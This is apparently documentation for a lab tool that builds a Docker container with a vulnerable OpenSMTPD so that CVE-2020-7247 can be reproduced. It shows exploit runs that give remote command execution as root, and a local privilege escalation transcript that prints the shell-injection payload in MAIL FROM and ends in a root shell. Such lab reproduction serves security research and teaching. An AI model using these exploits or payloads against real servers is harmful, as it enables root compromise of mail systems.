 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment

```shell
python decret.py --number 2020-7247 --release bullseye --directory opensmtpd --selenium
```

Once in the container, we can try to start opensmtpd.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually a small issue with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_2_verified`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/# python /tmp/decret/exploit_2_verified  127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_0_verified`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/# su toto
toto@cve-2020-7247:/$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.



### One-liner

Using customization options `--run-lines` and `--cmd-line`, we can
create a vulnerable container and expose it to the host.

```shell
python decret.py -n 2020-7247 -r bullseye \
                 --selenium -d opensmtpd \
                 --port 25 --host-port 2525 \
                 --run-lines "sed -i s/localhost/0.0.0.0/ /etc/smtpd.conf" \
                             "echo 'match from any for domain \"cve-2020-7247\" action \"local\"' >> /etc/smtpd.conf" \
                 --cmd-line "smtpd -d"
```

Since `opensmtpd` is restricted by default to only allow local
operations, we have to make more changes to the `smtpd.conf` file.

Once the container is running, you can simply use one of the exploit
from the host, and check that it works:
```shell
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
bin/ls: cannot access '/tmp/DANGER': No such file or directory
$ python exploit_2_verified 127.0.0.1 2525 'touch /tmp/DANGER'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
DANGER
```
